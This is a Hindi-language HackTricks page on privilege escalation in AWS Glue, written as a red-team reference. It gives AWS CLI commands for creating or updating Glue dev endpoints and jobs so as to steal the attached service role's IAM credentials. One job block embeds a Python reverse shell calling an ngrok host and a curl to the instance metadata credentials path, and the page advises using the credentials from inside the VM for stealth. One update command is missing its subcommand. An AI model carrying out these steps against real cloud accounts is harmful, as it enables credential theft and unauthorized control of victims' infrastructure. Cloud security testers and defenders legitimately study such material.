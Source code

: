 # AWS - Glue Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:`**`PassRole` और `glue:CreateDevEndpoint`** अनुमतियों वाले उपयोगकर्ता इनका उपयोग करके **नया AWS Glue डेवलपमेंट एंडपॉइंट सेटअप** कर सकते हैं, **एक मौजूदा सेवा भूमिका को इस एंडपॉइंट से निर्दिष्ट अनुमतियों के साथ असाइन करते हुए**।

सेटअप के बाद, **हमलावर एंडपॉइंट के इंस्टेंस में SSH के जरिए प्रवेश कर सकता है**, और असाइन की गई भूमिका की IAM साखों को चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
चुपके से काम करने के लिए, Glue वर्चुअल मशीन के अंदर से IAM प्रमाण-पत्र का उपयोग करने की सिफारिश की जाती है।

**संभावित प्रभाव:** Glue सेवा भूमिका तक प्रिवेस्क की संभावना।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** अनुमति वाले उपयोगकर्ता मौजूदा Glue डेवलपमेंट एंडपॉइंट की SSH कुंजी को **बदल सकते हैं**, **इसे SSH पहुँच सक्षम करते हैं**। इससे हमलावर को एंडपॉइंट की संलग्न भूमिका के विशेषाधिकारों के साथ कमांड निष्पादित करने की अनुमति मिलती है, जिससे अनधिकृत पहुँच या क्रियाओं की संभावना होती है।
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** Glue सेवा भूमिका का Privesc उपयोग किया गया।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** के साथ उपयोगकर्ता, या तो **`glue:CreateJob` या `glue:UpdateJob`** के साथ, और या तो **`glue:StartJobRun` या `glue:CreateTrigger`** के साथ, **AWS Glue जॉब बना सकते हैं या अपडेट कर सकते हैं**, किसी भी **Glue सेवा खाते** को संलग्न कर सकते हैं, और जॉब के निष्पादन की शुरुआत कर सकते हैं। जॉब की क्षमताओं में मनमाने Python कोड को चलाना शामिल है, जिसका उपयोग रिवर्स शेल स्थापित करने के लिए किया जा सकता है। इस रिवर्स शेल का उपयोग फिर Glue जॉब से जुड़े भूमिका के **IAM क्रेडेंशियल** को बाहर निकालने के लिए किया जा सकता है, जिससे उस भूमिका की अनुमतियों के आधार पर संभावित अनधिकृत पहुँच या क्रियाएँ हो सकती हैं:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** glue सेवा भूमिका तक प्रिवेस्क।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ एक हमलावर पहले से जुड़ी भूमिका की IAM साख चुरा सकता है।

**संभावित प्रभाव:** glue सेवा भूमिका से जुड़ी प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
